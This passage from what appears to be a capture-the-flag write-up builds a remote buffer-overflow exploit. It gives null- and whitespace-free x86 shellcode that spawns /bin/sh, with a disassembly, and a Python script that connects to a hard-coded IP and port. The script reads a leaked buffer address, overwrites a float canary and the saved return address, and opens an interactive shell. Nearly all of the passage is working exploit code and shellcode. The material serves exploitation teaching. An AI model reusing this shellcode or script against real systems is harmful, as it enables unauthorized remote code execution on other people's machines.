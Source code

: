 Instead of `mov al, 0xb`, let's just use two large values whose difference is 0xb (such as, oh I dunno, 0x7ffffffb and 0x7ffffff0). This way, the assembled shellcode won't actually contain an '0xb' byte and will be whitespace free.

Here's the final shellcode:

{language=objdump-nasm}
~~~~~~~~
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  89 c1                   mov    ecx,eax
11: 89 c2                   mov    edx,eax
13: b8 fb ff ff 7f          mov    eax,0x7ffffffb
18: 2d f0 ff ff 7f          sub    eax,0x7ffffff0
1d: cd 80                   int    0x80
1f: 31 c0                   xor    eax,eax
21: 40                      inc    eax
22: cd 80                   int    0x80
~~~~~~~~

We can then deploy the shellcode as the payload for our python exploit script:

{language=python}
~~~~~~~~
 1 # -*- coding: utf8 -*-
 2 import socket, string, struct, sys, telnetlib, time
 3 
 4 def i_send(sock, msg):
 5     sock.send(msg + '\n')
 6     print "SEND >>>", msg
 7 
 8 def i_recv(sock):
 9     data = sock.recv(8888)
10     for line in data.split('\n'):
11         print "<<< RECV", line
12     return data
13 
14 s = socket.create_connection(('54.173.98.115', '1259'))
15 
16 buf_addr = i_recv(s).split(' ')[1]  # We're gonna get "Buff: 0xdeadbeef"
17 buf_addr = int(buf_addr, 0)
18 print "Got buffer addresss: 0x%x" % (buf_addr)
19 
20 shellcode = ("\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x89" +
21              "\xC1\x89\xC2\xB8\xFB\xFF\xFF\x7F\x2D\xF0\xFF\xFF\x7F\xCD\x80\x31" +
22              "\xC0\x40\xCD\x80")
23 buf_contents = shellcode + '\x90' * (128 - len(shellcode))
24 payload = (buf_contents +
25            struct.pack('<d', 64.33333) +
26            'A' * 8 +                      # padding ¯\_(ツ)_/¯
27            'A' * 4 +                      # saved ebp
28            struct.pack('<I', buf_addr))   # saved eip
29 
30 i_send(s, payload)
31 
32 t = telnetlib.Telnet()
33 t.sock = s
34 t.interact()
~~~~~~~~
